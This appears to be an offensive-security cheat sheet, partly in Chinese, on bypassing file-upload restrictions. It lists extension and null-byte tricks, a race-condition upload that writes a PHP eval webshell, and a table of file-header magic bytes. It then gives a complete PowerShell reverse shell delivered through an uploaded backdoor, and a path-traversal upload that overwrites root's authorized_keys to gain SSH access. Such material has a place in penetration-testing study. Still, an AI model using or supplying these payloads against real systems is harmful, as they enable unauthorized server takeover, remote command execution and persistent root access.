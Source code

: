 ### File Extensions
```
.phps or .php7
From .php to .pHP
```
### 截断
```
filename.php%00.pdf
```
### 条件竞争绕过
服务器对文件进行检测，如果不符合则删除文件，这其中需要一些时间，我们可以利用这个时间差进行上传木马，要求服务器接收到文件不会重命名。
我们将上传的文件写为：
```
<?php fputs(fopen('shell.php','w'),'<?php eval($_GET[cmd])?>');?>
```
### 文件类型特征码（Convert to ascii in burp）
···
JPEG (jpg)，文件头：FFD8FF
PNG (png)，文件头：89504E47
GIF (gif)，文件头：47494638
TIFF (tif)，文件头：49492A00
Windows Bitmap (bmp)，文件头：424D
CAD (dwg)，文件头：41433130
Adobe Photoshop (psd)，文件头：38425053
Rich Text Format (rtf)，文件头：7B5C727466
XML (xml)，文件头：3C3F786D6C
HTML (html)，文件头：68746D6C3E
Email [thorough only] (eml)，文件头：44656C69766572792D646174653A
Outlook Express (dbx)，文件头：CFAD12FEC5FD746F
Outlook (pst)，文件头：2142444E
MS Word/Excel (xls.or.doc)，文件头：D0CF11E0
MS Access (mdb)，文件头：5374616E64617264204A
WordPerfect (wpd)，文件头：FF575043
Postscript (eps.or.ps)，文件头：252150532D41646F6265
Adobe Acrobat (pdf)，文件头：255044462D312E
Quicken (qdf)，文件头：AC9EBD8F
Windows Password (pwl)，文件头：E3828596
ZIP Archive (zip)，文件头：504B0304
RAR Archive (rar)，文件头：52617221
Wave (wav)，文件头：57415645
AVI (avi)，文件头：41564920
Real Audio (ram)，文件头：2E7261FD
Real Media (rm)，文件头：2E524D46
MPEG (mpg)，文件头：000001BA
MPEG (mpg)，文件头：000001B3
Quicktime (mov)，文件头：6D6F6F76
Windows Media (asf)，文件头：3026B2758E66CF11
MIDI (mid)，文件头：4D546864
···
### Powershell reverse shell
```
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)

curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20+$EncodedText
```

### Upload non-executable file
```
upload ../../../../../../../root/.ssh/authorized_keys
rm ~/.ssh/known_hosts
ssh -p 2222 -i privatekey root@mountaindesserts.com
```
